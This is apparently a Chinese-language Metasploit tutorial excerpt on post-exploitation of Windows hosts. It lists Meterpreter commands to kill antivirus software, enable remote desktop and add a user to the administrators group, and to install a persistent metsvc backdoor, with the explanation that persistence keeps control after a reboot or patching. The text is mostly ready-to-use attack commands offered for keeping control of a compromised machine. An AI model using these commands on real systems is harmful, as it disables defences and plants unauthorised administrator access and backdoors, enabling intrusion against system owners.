 ### 系统其它操作

```
1.关闭防病毒软件
run killav

run post/windows/manage/killav

```
### 操作远程桌面

```
run post/windows/manage/enable_rdp      \\开启远程桌面

run post/windows/manage/enable_rdp username=test password=test       \\添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

## 后门

Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```
![](img/4.png)
命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。
